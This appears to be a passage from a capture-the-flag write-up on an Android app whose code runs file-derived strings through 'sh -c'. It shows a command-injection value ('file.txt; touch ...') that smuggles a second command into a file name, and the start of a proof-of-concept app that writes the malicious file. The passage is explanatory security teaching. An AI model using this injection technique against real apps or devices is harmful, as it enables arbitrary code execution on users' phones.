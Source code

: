 We can found some *malware examples*. And their **checksum** respective.
But, the line of code of our interest is
```java
Process process = new ProcessBuilder(new String[0])
    .command("sh", "-c", command)
    .directory(Environment.getExternalStorageDirectory())
    .redirectErrorStream(true)
    .start();
```

Basically, every file is passed, leaving us a **RCE** vulnerability.
Then, we simply need to **create an application**, which *creates a file with the command that is passed as an argument to the application with the vulnerability*.
Like
`file = file.txt; touch lautarovculic`

So, you can find the project PoC here:
**`MainActivity.java`**
```java
package com.lautaro.cyclicrce;  
  
import android.Manifest;  
import android.content.pm.PackageManager;  
import android.os.Bundle;  
import android.util.Log;  
import android.widget.Button;  
import android.widget.Toast;  
  
import androidx.annotation.NonNull;  
import androidx.appcompat.app.AppCompatActivity;  
import androidx.core.app.ActivityCompat;  
import androidx.core.content.ContextCompat;  
  
import java.io.File;  
import java.io.FileWriter;  
import java.io.IOException;  
  
public class MainActivity extends AppCompatActivity {  
  
    private static final int PERMISSION_REQUEST_CODE = 1;  
    private static final String TAG = "PoCApp";  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        setContentView(R.layout.activity_main);  
  
        Button pocButton = findViewById(R.id.pocButton);  
  
        pocButton.setOnClickListener(v -> {  
            if (checkPermission()) {  
                createMaliciousFile();  
            } else {  
                requestPermission();  
            }  
        });  
    }  
  
    private boolean checkPermission() {  
        return ContextCompat.checkSelfPermission(  
                getApplicationContext(), Manifest.permission.WRITE_EXTERNAL_STORAGE  
        ) == PackageManager.PERMISSION_GRANTED;  
    }  
  
    private void requestPermission() {  
```